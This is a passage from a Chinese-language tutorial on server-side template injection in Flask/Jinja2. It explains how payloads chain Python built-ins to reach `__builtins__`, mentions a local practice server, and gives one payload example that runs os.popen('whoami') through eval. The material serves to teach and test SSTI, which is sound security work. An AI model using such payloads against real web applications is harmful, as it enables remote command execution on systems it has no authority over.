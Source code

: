 ![alt text](images/image19.png)
\
> (20) `request` : 也可以用来获取`__builtins__`.\
![alt text](images/image20.png) 

综上，我们可以看出，<mark>常规来讲基本上都为了获取`__builtins__`而对内置函数做各种拼接，因为`__builtins__`包含了我们执行命令所需的模块或方法。</mark>


## 0x01 漏洞原理
### 1.0 环境搭建
可参考[Flask-SSTI.py 简易服务](Flask-SSTI.py)

### 1.1 payload示例及解析
#### 示例一
```
{{[].__class__.__base__.__subclasses__()['method'].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```